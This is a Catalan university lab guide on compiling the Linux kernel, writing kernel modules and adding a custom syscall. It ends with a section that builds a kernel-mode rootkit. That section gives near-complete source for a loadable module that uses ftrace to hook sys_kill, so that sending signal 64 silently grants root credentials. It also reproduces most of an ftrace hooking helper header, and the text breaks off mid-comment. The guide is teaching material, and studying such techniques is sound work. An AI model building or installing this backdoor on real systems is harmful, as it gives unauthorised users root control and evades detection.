

Objectius
=========

* Aprendre a compilar el kernel de linux.
* Aprendre a afegir una crida a sistema.
* Veure la importància de la dualitat del sistema operatius concretament de l'espai d'adreces de l'usuari i espai d'adreces del nucli.
* Aprendre a fer un rootkit d'escalada de privilegis mitjançant la tècnica de hooking.


Preparatius
-----------

En primer lloc, accedirem a una sessió com a usuari root per poder instal·lar tots els paquets que necessitarem per realitzar el laboratori.

```sh
su - root
```

1. Instal·la les eines essencials per a la construcció de programar:

    ```sh
    apt-get install build-essential libncurses-dev bison flex kmod -y
    ```

2. Instal·la utilitats per a l'ús de l'algoritme de compressió XZ i el desenvolupament amb SSL:

    ```sh
    apt-get install xz-utils libssl-dev  -y
    ```

3. Manipulació de fitxers ELF:

    ```sh
    apt-get install libelf-dev dwarves -y
    ```

4. Instal·la les capçaleres del nucli de Linux corresponents a la versió actual del teu sistema (obtinguda amb **uname -r**):

    ```sh
    apt-get install linux-headers-$(uname -r) -y 
    ```

5. Instal·la l'eina strace per poder analitzar les crides a sistema:

    ```sh
    apt-get install strace -y
    ```

Finalment tornem a una sessió d'usuari normal:

```sh
exit
```

# Programació de mòduls al kernel

Els **mòduls** són fragments de codi que es poden carregar i descarregar al nucli de forma dinàmica. Ens permeten ampliar la funcionalitat del nucli sense necessitat de reiniciar el sistema.

Sense mòduls, hauríem de construir nuclis **monolítics** i afegir noves funcionalitats directament a la imatge del nucli. A més de tenir nuclis més grans, amb l'inconvenient d'exigir reconstruir i reiniciar el nucli cada vegada que volem una nova funcionalitat.


* Versió actual del kernel:

```sh
uname -r
```

* Per veure tots els mòduls que tenim actualment carregats al kernel:

```sh
su root -c "lsmod"
# o bé
su root -c "cat /proc/modules"
```

* Podem filtrar un mòdul concret si coneixem el seu nom (o part) aplicant la comanda **grep**:

```sh
su root -c "lsmod | grep fat"
```

* Els mòduls del kernel registren la informació de log en una consola, però per defecte no la podreu veure per *sdtout* o *stderr*. Per veure aquesta informació podrem fer servir (```dmesg``` o ```journalctl```). 

* Per imprimir informació en aquest fitxer de log utiltizarem la funció [*printk*]{.alert}.

* **Modversioning**. Un mòdul compilat per a un nucli concret no es carregarà si arrenqueu un nucli diferent tret que habiliteu **CONFIG_MODVERSIONS**.


Mòdul: Hola Món
----------------

1. Crearem un directori per a la nostra pràctica:

    ```sh
    cd $HOME
    mkdir kernel
    cd kernel
    ```

2. Crearem un mòdul de kernel:

    ```sh
    vim hola.c
    ```

    ```c
    /*
     * hola.c - Demostració de mòdul de kernel
     */ 

    #include <linux/kernel.h> 
    #include <linux/module.h> 
 
    int init_module(void) 
    { 
        printk(KERN_INFO "WoW, Estic al Kernel!.\n"); 
        return 0; 
    } 
 
    void cleanup_module(void) 
    { 
        printk(KERN_INFO ":( M'eliminen del Kernel.\n"); 
    } 
    ```

3. Crearem un Makefile per compilar el nostre mòdul:

    ```sh
    vim Makefile
    # Si feu copy/paste -> obrir amb vim/vi 
    # Verifiqueu que la indentació sigui correcta.
    # Makefile: Utilitzen tabs no espais!!!!
    ```

    ```makefile
    obj-m += hola_v1.o
    PWD := $(CURDIR)
    all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
    clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
    ```

4. Per compilar el nostre mòdul:

    ```sh
    make
    ```

5. Obrim una sessió de **root**.

    ```sh
    su - root
    ```

6. Carreguem el nostre mòdul:

    ```sh
    insmod hola_v1.ko
    ```

7. Observem el comportament del nostre mòdul:

    ```sh
    dmesg
    ```

    També podem fer servir *journalctl* per accedir als logs:

    ```sh
    journalctl --since "1 hour ago" | grep kernel
    ```

8. Descarreguem el mòdul:

    ```sh
    rmmod hola_v1.ko
    ```

9. Observem el comportament del nostre mòdul:

    ```sh
    dmesg
    ```

### Consideracions

* Tots els mòduls del nucli han d'incloure la llibrerira ```<linux/module.h>```que permet expandir les macros necessaries per implementar mòduls.
* Per poder tenir informació de log es requereix ```<linux/kernel.h>```.
* Tots el mòduls han de tenir 2 funcions: 
   * ```ìnit_module()```que permet la instal·lació del mòdul al nucli.
   * ```cleanup_module()```que permet la seva desintal·lació. 

**OBSERVACIÓ:** Tot i això, no és obligatori que s'anomenin així es pot definir el nom que vulguem amb ```module_init(nou nom)```i ```module_exit(nou nom)```.


Compilant el Kernel de Linux
===============================

Per compilar el Kernel utiltizarem la nostra màquina virtual amb *debian*. Utilitzarem una sessió amb l'usuari **root**. Per tant, ```su - root```. 

Obtenint un kernel
----------------

* Baixeu l'última versió del nucli 6.5.5 de [kernel.org](https://www.kernel.org/) i descomprimiu els *sources* a la vostra màquina virtual. Podeu baixar els fitxers directament a **/root**.

```sh
wget https://cdn.kernel.org/pub/linux/kernel/v6.x/linux-6.5.5.tar.xz
tar -xJf linux-6.5.5.tar.xz
cd linux-6.5.5/
```

Configuració del Kernel
---------------------

La configuració del kernel és un pas crucial en el procés de compilació, ja que permet personalitzar el kernel segons les necessitats i requeriments específics del sistema en què s'implementarà. Aquesta personalització pot incloure adaptar el kernel per garantir la compatibilitat amb el maquinari disponible i afegir funcionalitats específiques que l'usuari desitja integrar. Per exemple, es pot afegir el sistema de fitxer avançats com **zfs** o **btrfs**. Un usuari avançat es pot fer un kernel a mida per optimitzar el rendiment del sistema.

Ara bé, en aquest laboratori, per configurar el kernel, partirem de la configuració actual del vostre sistema:

```sh
cp -v /boot/config-$(uname -r) .config
```

A continuació, pots fer ajustos de configuració, en el nostre cas no farem cap canvi, únicament guardarem la configuració actual.

```sh
make menuconfig
```

Edició de .config
---------------

Cerca la configuració ```CONFIG_SYSTEM_TRUSTED_KEYS``` i assigna-li el valor de cadena buida. Si ja té aquest valor assignat a la cadena buida, no cal fer cap canvi.

```sh
vim .config
# Premeu / i després escriviu el patró a cercar
# Cerca: CONFIG_SYSTEM_TRUSTED_KEYS
# Edita: CONFIG_SYSTEM_TRUSTED_KEYS=""
# Desa i surt (wq!)
```

Compilació i Instal·lació
------------------------

Utilitzarem l'eina **screen** que ens permetrà deixar la compilació en segon pla i poder fer altres tasques. **No tanqueu la màquina virtual**. La shell o el visual code els podeu tancar. Deixeu el procés **overnight** i al matí podreu veure el resultat.

```sh
su -c "apt install screen -y"
```

```sh
screen -S compilantKernel
```

Utilitzarem l'eina **make** per compilar el kernel. Aquesta eina ens permet compilar de forma paral·lela. El nombre de processos que es poden executar de forma paral·lela es pot especificar amb l'opció **-j**. En el nostre cas, utilitzarem el nombre de processadors disponibles a la nostra màquina virtual obtinguts amb ```nproc```.

```sh
make  ARCH=x86_64 -j `nproc` && make ARCH=x86_64 modules_install -j `nproc` && make ARCH=x86_64 install -j `nproc`
# enter
# Això pot trigar... paciencia ^^
```

Per sortir de la sessió de screen i poder realitzar altres tasques a la màquina virtual:

```sh
# Premeu Ctrl+A i després d
```

* Per tornar a la sessió de screen:

```sh
screen -r compilantKernel
```

Un cop finalitzada la compilació, actualitzarem el grub per poder seleccionar el nou kernel que hem compilat.


Actualitzeu el grub
-------------------

**GRUB** és un gestor de carregador d'arrencada àmpliament utilitzat en sistemes operatius basats en Linux. Els gestors d'arrencada són programes que permeten als usuaris triar entre diferents sistemes operatius instal·lats en un ordinador o triar entre diferents modes d'arrencada del mateix sistema operatiu.

```sh
update-initramfs -c -k 6.5.5
update-grub
reboot
```

Anem a configurar el GRUB per poder utilitzar debian amb el nou kernel que hem compilat. Per fer això actualitzarem initramfs per tal que inclogui els mòduls necessaris per carregar el nou kernel ((**update-initramfs**)) i també actualitzarem el GRUB (**update-grub**). Finalment reiniciarem la màquina virtual (**reboot**).

Booting
-------

1. En encendre l'ordinador, la **BIOS o UEFI** és la primera a prendre el control. Aquesta firmware està emmagatzemada a la placa base de l'ordinador i inicialitza el maquinari, realitza les comprovacions del sistema i selecciona el dispositiu d'arrencada (*en el nostre cas el disc dur*).

2. La **BIOS o UEFI** carrega l'arrencador (*GRUB*) des del dispositiu d'arrencada especificat.

3. L'arrencador (*GRUB*) ens permet seleccionar diferents kernels o sistemes operatius instal·lats en el nostre disc dur.

4. L'arrencador (*GRUB*) carrega el kernel seleccionat i el sistema operatiu.

5. El sistema operatiu carrega els mòduls necessaris per a la seva execució.


Afegint una crida a sistema
===========================

Per afegir una nova crida a sistema, cal configurar la **taula de crides a sistema**. Aquesta taula és una estructura de dades que relaciona els números de crida al sistema amb les funcions de controlador de sistema corresponents. Quan un programa realitza una crida a sistema, s'utilitza aquesta taula per determinar quina funció de controlador s'ha d'executar.

La taula de crides a sistema es troba normalment a un fitxer anomenat *syscall_<architecture>.tbl*, en aquest cas **syscall_64.tbl** per a l'arquitectura *x86*, a la ruta *arch/x86/entry/syscalls/*.

```sh
less /root/linux-6.5.5/arch/x86/entry/syscalls/syscall_64.tbl
```

Aquest fitxer enumera totes les crides a sistema disponibles, assignant un número únic a cadascuna. Per exemple, la crida a sistema associada amb **write** té el número 1 i **fork** té el número 57.
 
```sh 
grep -i "write" /root/linux-6.5.5/arch/x86/include/generated/asm/syscalls_64.h

grep -i "fork" /root/linux-6.5.5/arch/x86/include/generated/asm/syscalls_64.h
```

Aquesta numeració és essencial per garantir la coherència entre l'espai d'adreces d'usuari i l'espai d'adreces del kernel. La UAPI (User-space API) fa referència a un sistema per mantenir aquesta coherència, assegurant que els números de crida al sistema a l'espai d'adreces de l'usuari coincideixin amb els del kernel.

Diferents arquitectures poden utilitzar diferents números de crida al sistema per a la mateixa funcionalitat. Per exemple, el número de crida a sistema per a **fork** és 2 en arquitectures Intel x86 de 32 bits, mentre que és 57 en arquitectures Intel x86 de 64 bits.

Un cop es realitza una crida a sistema en un nucli en execució, el nucli cerca la funció de controlador d'aquesta crida al sistema a la taula de crides del sistema. Aquesta taula és una matriu on l'índex és el número de crida al sistema i el valor és el punter a la funció de controlador corresponent (*sys_call_ptr_t*).

A la nostra configuració, el codi font de la taula de crides del sistema és la matriu anomenada **sys_call_table** definida a *arch/x86/entry/syscall_64.c*. Aquest fitxer s'inicialitza des del fitxer *arch/x86/include/generated/asm/syscalls_64.h*, que es genera automàticament mitjançant **syscall_64.tbl** quan es recompila el nucli.

```sh
less /root/linux-6.5.5/arch/x86/entry/syscall_64.c
```

La taula de crides a sistema es troba a *arch/x86/entry/syscalls/syscall_64.tbl*. Aquest fitxer conté una llista de totes les crides a sistema disponibles. Aquest fitxer no és codi font C, però s'utilitza per produir fitxers de codi font C **generats** com ara *arch/x86/include/generated/asm/syscalls_64.h* durant el procés de recompilar del nucli.

```sh
less /root/linux-6.5.5/arch/x86/include/generated/asm/syscalls_64.h
```

A continuació, es mostra un exemple per afegir una crida a sistema anomenada *sys_getdummymul*. Aquesta crida a sistema donats dos números enters en mode usuari els passarà a mode nucli i els multiplicarà en el nucli. Un cop acabada l'operació, ens retornarà el seu resultat en mode usuari.


1. Actualitzar la taula de crides a sistema. Per fer-ho, afegirem una nova entrada a **syscall_64.tbl** amb el número de la nova crida a sistema i el seu nom, com ara *sys_getdummymul*. El número de la nsotra crida serà el següent enter disponible a la taula de crides a sistema.

    Per exemples si l'última crida a sistema té l'índex 451, la nostra crida tindrà l'índex 452.

    ```sh
    vim /root/linux-6.5.5/arch/x86/entry/syscalls/syscall_64.tbl
    ```

    En aquest fitxer cerqueu el final de la secció *common* i afegiu la vostra crida a sistema. El format és el següent:

    ```sh
    <index> <abi> <name> <entry point>
    ```

    Per tant, en el nostre cas:

    ```sh
    452 common getdummymul sys_getdummymul
    ```

    Un cop modificat el fitxer, deseu-lo i tanqueu-lo.

2. Definir la funció del controlador. Ara definirem el contracte de la nostra funció de controlador. Aquesta funció s'ha de definir a *kernel/sys.c*.

    ```sh
    vim /root/linux-6.5.5/include/linux/syscalls.h
    ```

    Afegiu la següent línia al final del fitxer. Recordeu prement (*majuscula + G*) podeu anar al final del fitxer.

    ```sh
    asmlinkage long sys_getdummymul(int num1, int num2, int* resultat);
    ```

    Aquesta funció rep dos enters i un punter a un enter. Els dos enters són els dos números que volem multiplicar i el punter a enter és on volem que es guardi el resultat de la multiplicació.


3. Implementar la funció del controlador. Ara implementarem la funció de controlador. Aquesta funció s'ha de definir a *kernel/sys.c*.

    ```sh
    vim /root/linux-6.5.5/kernel/sys.c
    ```

    Afegiu al final del fitxer el codi C:

    ```c
    SYSCALL_DEFINE3(getdummymul,int, num1, int ,num2, int*, resultat){
        printk("Estic al kernel executant getdummymul syscall!\n");
        int res = num1 * num2;
        printk("El resultat de multiplicar num1=%d i num2=%d es res=%d (Mode kernel)\n", num1,num2,res);
        copy_to_user(resultat, &res, sizeof(int));
        return 0;
    }
    ```

    Aquesta funció utilitza **printk** per escriure un missatge al registre del nucli. Aquest missatge el podrem recuperar en mode usuari per monitoritzar la correcta execució de la funció en mode nucle. A continuació, multiplica els dos enters i utilitza **copy_to_user** per copiar el resultat al punter a enter que li hem passat com a paràmetre. Finalment, retorna 0. 
    
    Es molt important utilitzar el **copy_to_user** per copiar el resultat al punter a enter que li hem passat com a paràmetre. Si no ho fem així, el resultat de la multiplicació no es copiarà a l'espai d'adreces de l'usuari i no podrem recuperar el resultat de la multiplicació.

    Recordeu que l'espai d'adreçes del nucli i del usuari són diferents, per tant la informació s'ha de copiar de l'espai d'adreces del nucli a l'espai d'adreces de l'usuari i viceversa. Compte, quan l'usuari passa un punter com a parametre les funcions del nucli sempre han de comprovar que apunti a una regió vàlida de l'espai d'adreces de l'usuari.

4. Actualitzar l'espai d'adreces de l'usuari. En aquest pas, ens hem d'assegurar que en l'espai d'adreces de l'usuari hi ha una definició de la crida que acabem d'implementar. Per fer-ho editarem */root/linux-6.5.5/include/uapi/asm-generic/unistd.h*.

    ```sh
    vim /root/linux-6.5.5/include/uapi/asm-generic/unistd.h
    ```

    Cerca la línia: __NR_syscalls (quasi al final del fitxer)

    ```c
    //Editeu la línia augmentant en 1 el valor que tingueu. En el meu cas 449 -> 450:
    #define __NR_syscalls 452

    //Just damunt de la línia anterior -> afegim:
    #define __NR_getdummymul 453
    __SYSCALL(__NR_getdummymul, sys_getdummymul)
    ```

    Deseu i tanqueu el fitxer.

    En aquesta modificació hem actualitzat el nº de criada a sistema i hem afegit la nostra crida a sistema en l'espai d'adreçament de l'usuari.


5. Per acabar recompileu el kernel i reinicieu la màquina virtual.

    ```sh
    make -j `nproc` && make modules_install -j `nproc` && make install -j `nproc`
    reboot
    ```


Per comprovar que la nostra crida a sistema funciona, crearem un programa amb C que faci anar la nostra crida a sistema:

```c
#include<stdio.h>
#include<unistd.h>
#include <stdlib.h>
#include<sys/syscall.h>
// Posar el nº de crida a sistema que hem definit a syscall_64.tbl
#define __NR_getdummymul 452

int main(){
    int num1 = 4;
    int num2 = 3; 
    int resultat;
    syscall(__NR_getdummymul, num1,num2, &resultat);
    printf("(Mode usuari) El resultat de la multiplicacio es: %d\n", resultat);    
}
```

Compilem el programa i l'executem:

```sh
gcc getdummymul.c -o getdummymul
./getdummymul
```

Podem utiltizar la comanda **strace** per veure les crides a sistema que fa el nostre programa:

```sh
stracte ./getdummymul   
```


Hacking the kernel (Escalada de Privilegis)
===========================================

Què és una escalada de privilegis?
----------------------------------

Una escalada de privilegis es produeix quan un usuari normal, sense privilegis administratius, aconsegueix obtenir permissos suficients per realitzar accions que normalment estan restringides per al seu rol. Per exemple, un usuari comú aconsegueix obtenir els privilegis d'administrador (root) d'un sistema, permetent-li realitzar accions que nomalment només pot fer l'usuari root. Això és una violació de la seguretat i pot ser explotada per realitzar accions malicioses.

Imaginem que l'usari *jordi* al debianlab vol tenir tot el control com l'usuari **root**, però l'usuari **root** és una altra persona. \blueArrow l'usuari *jordi* no pot ni invocar a root (no és sudoers). Si **jordi** aconsegueix esdevenir *root* per algun mecanisme, haurà fet una escalada de privilegis. 

Què és un rootkit
-----------------

Un rootkit és un tipus de software maliciós dissenyat per infectar un sistema i permetre executar accions no autoritzades. Els rootkits poden ser de dos tipus: **user-mode** i **kernel-mode**. Els primer estan dissenyats per a operar en l'entorn d'usuari, modificant aplicacions i reescrivint memòria per aconseguir els seus objectius maliciosos (rootkits més comuns). En canvi, els rootkits de **kernel-mode** operen des del nucli del sistema operatiu, obtenint privilegis més alts i permetent un control complet sobre el sistema infectat (més difícils de detectar i eliminar).

Context i descripció
-----------

La crida a sistema kill (*sys_kill*) ens permet enviar senyals als processos (```man 7 signal``` i ```less /usr/include/signal.h```). Recordeu que si fem ```kill -9 PID``` s'enviarà el senyal SIGKILL al procés i el gestor durà a terme el tractament per defecte que és eliminar el procés. Un procés quan reb un senyal pot fer un tractament específic. Per exemple, si rebem el senyal SIGTERM, el procés pot fer una neteja de recursos i acabar. En aquest laboratori implementarem un tractament de senyal per un número que no existeix  i així sigui dificl de detectar la nostra escalada de privilegis. Assumirem el 64. De manera que ```kill -64 PID``` activi la nostra **backdoor**. Com la rutina de tractament de senyal s'executa en mode nucli, aquesta pot fer qualsevol cosa, com ara canviar el UID del procés a 0 (root).

Objectiu
---------

L'objectiu d'aquest laboratori és crear un **rootkit** que intercepti una crida a sistema específica (*sys_kill*) i permeti una escalada de privilegis. Això es fa mitjançant la implementació d'una funció **hook** que canvia el comportament de la crida kill quan s'utilitza amb un cert senyal (utilitzarem l'enter 64 ja que és un enter lliure i no es fa servir per cap senyal), permetent l'escalada de privilegis. Aquest exemple s'ha extret de ([**TheXcellerator**](https://xcellerator.github.io/)).


Procediment
------------




1. **Crida a sistema en mode usuari**: Les crides a sistema són operacions crítiques que es fan des del mode usuari. La instrucció **SYSCALL** permet invocar una crida a sistema que serà gestionada pel nucli.
2. **Gestor específic pren el control**: Quan es realitza una crida a sistema des de l'espai d'usuari, el nucli del sistema operatiu pren el control. Aquest es delega a una funció de baix nivell implementada, com ara *do_syscall_64()*. Aquesta funció accedeix a la taula de controladors de crides al sistema (*sys_call_table*) i crida un controlador específic basat en el número de crida a sistema.
3. **Ftrace i __fentry()**: Al principi de cada funció dins del nucli, s'ubica una crida especial *__fentry()*, que fa part del sistema de traçabilitat** Ftrace**. Si aquesta funció no ha de ser traçada, se substitueix amb una instrucció **nop**.
4. **Ftrace crida al nostre callback**: Quan s'executa una crida a sistema traçada per **Ftrace**, el sistema crida al nostre callback específic que hem enganxat (**hooked**). En aquest callback, podem modificar el valor del registre *ip*, que apunta a la següent funció que ha d'executar-se.
5. **Restauració de l'estat dels registres**: **Ftrace** es responsabilitza de restaurar l'estat original dels registres abans de passar el control al controlador original de la crida a sistema. El nostre **hook** canvia el registre ip per dirigir l'execució a la nostra funció hook, no a la funció original.
6. **Canvi de control a la nostra funció hook**: Aquest canvi de registre *ip* dirigeix l'execució a la nostra funció *hook*, però el processador i la memòria romanen en el mateix estat. La nostra funció *hook* rep els arguments del controlador original.
7. **Execució de la funció original**: La funció hook crida la funció original de la crida a sistema, obtenint així el control de la crida a sistema.
8. **Processament del hook**: Després d'analitzar el context i els arguments de la crida al sistema, el nostre hook realitza les accions desitjades.
9. **Callback sense accions**: En la segona crida a la funció original de la crida a sistema, que passa a través de Ftrace, el callback no fa cap acció, permetent que la funció original s'executi sense interrupcions.
10. **Tornada a la funció original**: La funció original de la crida a sistema s'executa sense interferències, ja que ha estat cridada no pel nucli des de *do_syscall_64()*, sinó per la nostra funció *hook*.
11. **Retorn al gestor de crides del sistema**: Després que la funció original ha acabat, el control retorna al gestor de crides del sistema (*sys_xxxx()*), i de nou a la nostra funció **hook** (*fh_sys_execve()*).
12. **Retorn al mode d'usuari**: Finalment, el nucli passa el control al procés de l'usuari, completant el cicle d'execució d'una crida a sistema amb l'ús d'un hook.

Implementació
--------------

L'implementació es basa en modificar la funció de crida a sistema kill per interceptar la crida amb un senyal específic (64 en aquest cas) i, si es detecta aquest senyal, canviar les credencials de l'usuari actual a les credencials d'administrador (root), permetent així l'escalada de privilegis.


1. Crearem una funció que modifiqui les credencials de l'usuari actual per les credencials d'administrador (root). Aquesta funció utilitza la structura **cred** per modificar les credencials de l'usuari. Aquesta estructura es troba a *include/linux/cred.h*. **prepare_creds()** crea una nova estructura de credencials i l'assigna a la variable root. Per representar l'usuari root necessitem editar els valors **uid,gid,egid,sgid,fsgid** al valors 0 que en sistemes linux es reserva per l'usuari **root**. Finalment, **commit_creds()** aplica les credencials a l'usuari actual.

    ```c
    void set_root(void)
    {
        struct cred *root;
        root = prepare_creds();
        if (root == NULL)
            return;
        root->uid.val = 
            root->gid.val = 0;
        root->euid.val = 
            root->egid.val = 0;
        root->suid.val = 
            root->sgid.val = 0;
        root->fsuid.val = 
            root->fsgid.val = 0;
        commit_creds(root);
    }
    ```

    Detalls adicionals  sobre la structura **cred**:

    ```sh
    less /root/linux-6.5.5/include/linux/cred.h
    ```

2. Un cop implementada la funció per esdevenir root, necessitem implementar un hook (rutina de tractament de la senyal 64). En aquest cas, el nostre hook interceptarà la crida a sistema kill i, si el senyal és 64, cridarà a la funció **set_root()** per esdevenir root. Per obtenir el nº de senyal utilitzarem la variable **si** de la structura **pt_regs**. Aquesta estructura conté informació sobre els registres del processador en el moment de la crida a sistema i ens permet obtenir informació com el nº de senyal, el PID, etc. 

    ```c
    asmlinkage int hook_kill(
        const struct pt_regs *regs)
    {
        void set_root(void);
        int sig = regs->si;
        if (sig == 64)
        {
            printk(KERN_INFO "rootkit: giving root...\n");
            set_root();
            return 0;
        }
        return orig_kill(regs);
    }
    ```

3. Implementarem un mòdul del kernel que utiltizi aquestes funcions i ens permeti instal·lar/desintal·lar el nostre rootkit al sistema.

    ```c 
        #include <linux/init.h>
        #include <linux/module.h>
        #include <linux/kernel.h>
        #include <linux/syscalls.h>
        #include <linux/kallsyms.h>
        #include <linux/version.h>

        #include "ftrace_helper.h"

        MODULE_LICENSE("GPL");
        MODULE_AUTHOR("Jordi Mateo");
        MODULE_DESCRIPTION("");
        MODULE_VERSION("0.01");

        /* After Kernel 4.17.0, the way that syscalls are handled changed
        * to use the pt_regs struct instead of the more familiar function
        * prototype declaration. We have to check for this, and set a
        * variable for later on */
        #if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0))
        #define PTREGS_SYSCALL_STUBS 1
        #endif

        /* We now have to check for the PTREGS_SYSCALL_STUBS flag and
        * declare the orig_kill and hook_kill functions differently
        * depending on the kernel version. This is the largest barrier to 
        * getting the rootkit to work on earlier kernel versions. The
        * more modern way is to use the pt_regs struct. */
        #ifdef PTREGS_SYSCALL_STUBS
        static asmlinkage long (*orig_kill)(const struct pt_regs *);

        /* We can only modify our own privileges, and not that of another
        * process. Just have to wait for signal 64 (normally unused) 
        * and then call the set_root() function. */
        asmlinkage int hook_kill(const struct pt_regs *regs)
        {
            void set_root(void);

            // pid_t pid = regs->di;
            int sig = regs->si;

            if ( sig == 64 )
            {
                printk(KERN_INFO "rootkit: giving root...\n");
                set_root();
                return 0;
            }

            return orig_kill(regs);

        }
        #else
        /* This is the old way of declaring a syscall hook */

        static asmlinkage long (*orig_kill)(pid_t pid, int sig);

        static asmlinkage int hook_kill(pid_t pid, int sig)
        {
            void set_root(void);

            if ( sig == 64 )
            {
                printk(KERN_INFO "rootkit: giving root...\n");
                set_root();
                return 0;
            }

            return orig_kill(pid, sig);
        }
        #endif

        /* Whatever calls this function will have it's creds struct replaced
        * with root's */
        void set_root(void)
        {
            /* prepare_creds returns the current credentials of the process */
            struct cred *root;
            root = prepare_creds();

            if (root == NULL)
                return;

            /* Run through and set all the various *id's to 0 (root) */
            root->uid.val = root->gid.val = 0;
            root->euid.val = root->egid.val = 0;
            root->suid.val = root->sgid.val = 0;
            root->fsuid.val = root->fsgid.val = 0;

            /* Set the cred struct that we've modified to that of the calling process */
            commit_creds(root);
        }

        /* Declare the struct that ftrace needs to hook the syscall */
        static struct ftrace_hook hooks[] = {
            HOOK("__x64_sys_kill", hook_kill, &orig_kill),
        };

        /* Module initialization function */
        static int __init rootkit_init(void)
        {
            /* Hook the syscall and print to the kernel buffer */
            int err;
            err = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
            if(err)
                return err;

            printk(KERN_INFO "rootkit: Loaded >:-)\n");

            return 0;
        }

        static void __exit rootkit_exit(void)
        {
            /* Unhook and restore the syscall and print to the kernel buffer */
            fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
            printk(KERN_INFO "rootkit: Unloaded :-(\n");
        }

        module_init(rootkit_init);
        module_exit(rootkit_exit);
    ```

4. Finalment implementar el fitxer *ftrace_helper.h* que conté les funcions auxiliars per a la implementació del rootkit. La macro HOOK obtindrà l’adreça original on tenim implementada la funcionalitat real de la crida a sistema i la modificarà (**hook**) per tenir en aquella adreça la nostra funcionalitat maliciosa.


    ```c
        /*
        * Helper library for ftrace hooking kernel functions
        * Author: Harvey Phillips (xcellerator@gmx.com)
        * License: GPL
        * */

        #include <linux/ftrace.h>
        #include <linux/linkage.h>
        #include <linux/slab.h>
        #include <linux/uaccess.h>
        #include <linux/version.h>

        #if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0))
        #define PTREGS_SYSCALL_STUBS 1
        #endif

        /*
        * On Linux kernels 5.7+, kallsyms_lookup_name() is no longer exported, 
        * so we have to use kprobes to get the address.
        * Full credit to @f0lg0 for the idea.
        */
        #if LINUX_VERSION_CODE >= KERNEL_VERSION(5,7,0)
        #define KPROBE_LOOKUP 1
        #include <linux/kprobes.h>
        static struct kprobe kp = {
            .symbol_name = "kallsyms_lookup_name"
        };
        #endif

        #define HOOK(_name, _hook, _orig)   \
        {                   \
            .name = (_name),        \
            .function = (_hook),        \
            .original = (_orig),        \
        }

        /* We need to prevent recursive loops when hooking, otherwise the kernel will
        * panic and hang. The options are to either detect recursion by looking at
        * the function return address, or by jumping over the ftrace call. We use the 
        * first option, by setting USE_FENTRY_OFFSET = 0, but could use the other by
        * setting it to 1. (Oridinarily ftrace provides it's own protections against
        * recursion, but it relies on saving return registers in $rip. We will likely
        * need the use of the $rip register in our hook, so we have to disable this
        * protection and implement our own).
        * */
        #define USE_FENTRY_OFFSET 0
        #if !USE_FENTRY_OFFSET
        #pragma GCC optimize("-fno-optimize-sibling-calls")
        #endif

        /* We pack all the information we need (name, hooking function, original function)
        * into this struct. This makes is easier for setting up the hook and just passing
        * the entire struct off to fh_install_hook() later on.
        * */
        struct ftrace_hook {
            const char *name;
            void *function;
            void *original;

            unsigned long address;
            struct ftrace_ops ops;
        };

        /* Ftrace needs to know the address of the original function that we
        * are going to hook. As before, we just use kallsyms_lookup_name() 
        * to find the address in kernel memory.
        * */
        static int fh_resolve_hook_address(struct ftrace_hook *hook)
        {
        #ifdef KPROBE_LOOKUP
            typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
            kallsyms_lookup_name_t kallsyms_lookup_name;
            register_kprobe(&kp);
            kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
            unregister_kprobe(&kp);
        #endif
            hook->address = kallsyms_lookup_name(hook->name);

            if (!hook->address)
            {
                printk(KERN_DEBUG "rootkit: unresolved symbol: %s\n", hook->name);
                return -ENOENT;
            }

        #if USE_FENTRY_OFFSET
            *((unsigned long*) hook->original) = hook->address + MCOUNT_INSN_SIZE;
        #else
            *((unsigned long*) hook->original) = hook->address;
        #endif

            return 0;
        }

        /* See comment below within fh_install_hook() */
        static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs)
        {
            struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

        #if USE_FENTRY_OFFSET
            regs->ip = (unsigned long) hook->function;
        #else
            if(!within_module(parent_ip, THIS_MODULE))
                regs->ip = (unsigned long) hook->function;
        #endif
        }

        /* Assuming we've already set hook->name, hook->function and hook->original, we 
        * can go ahead and install the hook with ftrace. This is done by setting the 
        * ops field of hook (see the comment below for more details), and then using
        * the built-in ftrace_set_filter_ip() and register_ftrace_function() functions
        * provided by ftrace.h
        * */
        int fh_install_hook(struct ftrace_hook *hook)
        {
            int err;
            err = fh_resolve_hook_address(hook);
            if(err)
                return err;

            /* For many of function hooks (especially non-trivial ones), the $rip
            * register gets modified, so we have to alert ftrace to this fact. This
            * is the reason for the SAVE_REGS and IP_MODIFY flags. However, we also
